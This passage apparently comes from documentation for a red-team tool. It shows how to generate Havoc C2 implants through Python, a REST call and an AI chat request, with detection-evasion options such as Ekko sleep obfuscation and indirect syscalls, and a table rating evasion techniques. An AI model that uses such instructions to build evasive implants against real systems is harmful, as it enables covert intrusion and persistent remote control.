 #### Via Python API

```python
from c2_adapters.havoc_adapter import generate_havoc_demon

result = generate_havoc_demon(
    listener_host="192.168.1.100",
    listener_port=443,
    protocol="https",
    architecture="x64",
    sleep_technique="Ekko",
    obfuscate=True,
    indirect_syscalls=True,
    stack_duplication=True
)

if result.success:
    print(f"Demon: {result.beacon_path}")
    print(f"OPSEC: {result.opsec_score}/10")
```

#### Via REST API

```bash
curl -X POST http://localhost:8888/api/c2/havoc/generate \
  -H "Content-Type: application/json" \
  -d '{
    "listener_host": "192.168.1.100",
    "listener_port": 443,
    "protocol": "https",
    "architecture": "x64",
    "sleep_technique": "Ekko",
    "techniques": ["NOCTIS-T124"],
    "obfuscate": true,
    "indirect_syscalls": true,
    "stack_duplication": true
  }'
```

#### Via AI Chat (MCP)

```
"Generate a Havoc demon with Ekko sleep obfuscation targeting 192.168.1.100"
```

---

## Features

### Sleep Obfuscation Techniques

| Technique | Description | Detection Evasion |
|-----------|-------------|-------------------|
| **Foliage** | Thread context manipulation | High |
| **Ekko** | Queue user APC sleep | Very High |
| **WaitForSingleObjectEx** | Standard sleep | Moderate |
